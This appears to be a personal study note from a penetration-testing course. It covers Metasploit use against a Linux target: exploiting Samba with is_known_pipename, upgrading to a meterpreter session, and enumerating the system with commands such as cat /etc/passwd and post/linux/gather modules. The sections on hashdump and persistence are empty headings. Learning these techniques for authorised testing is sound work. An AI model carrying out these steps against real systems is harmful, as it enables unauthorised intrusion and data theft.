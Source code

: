 
![[Pasted image 20230830164328.png]] 

##### Upgrade shell session to meterpreter session 
1) `service postgresql start && msfconsole` 
2) create new `workspace` 
3) `setg rhost`s ip 
4) `db_nmap -sS -sV -O ip `
5) Exploit the found vulnerability: 
		 - `search samba`  -->  `use exploit/Linux/samba/is_known_pipename `
		 - `pwd` 
		 - `put session in the background` 
6) upgrade shell session to meterpreter session: `sessions -u 1` 
7) sessions 2 (this is now your meterpreter session )
 `

##### Enumerate the system: 
1)  `/bin/bash -i
2) `cat /etc/passwd`
3) `groups root ` (see members of group)
4) `cat /etc/*issue*`
5) `uname -r `
6) `uname -a`
8) `ip a s` (list interfaces on target system - get subnet for pivoting)
9) `netstat -antp`
10) `ps aux` (list processes on system)
11) `env`  

##### post exploitation modules 
- Enumerate configuration files on linux system: 
	- `search enum_configs` 
		- `use post/linux/gather/enum_configs` 
		- set session to meterpreter session on target 
		- `loot` 
		- `cat [path] ` (identify the shells that are on the system)

- gather environment settings 
	- `use post/multi/gather/env` 
	- `session` (set session to meterpreter session)
	- `run` 

- gather network information 
	- `use post/linux/gather/enum_network` 
	- `session` (set session to meterpreter session)
	- `run` 
	- `loot` (get al the information)
		- enumerate  information:  copy file path and: `cath path` `

- check protection systems on linux system (security features) 
	- `use post/linux/gather/enum_protection` 
		- set session to meterpreter session 
	- notes: here will al important notes are stored 

- system enumeration 
	- `use post/linux/gather/enum_system`
	- see installed packages: `loot` -> `cat [path]`


- check if target is a vm or container 
	- `search checkcointainer `
		- `use post/linux/gather/checkcontainer`  (if you are in a container- you need container-breakout to get access to host system that is hosting the container)
	- `search checkvm` 
		- `use post/linux/gather/checkvm` 

- enumerate users history
	- `search enum_users_history` 
		- `use post/linux/gather/enum_users_history`  (stores logs of commands)
		- `loot`  -> `cat` content file 


### Exploiting A vulnerable program 


### Dumping Hashes with Hashdump 


### Establishing persistence on Linux 


	

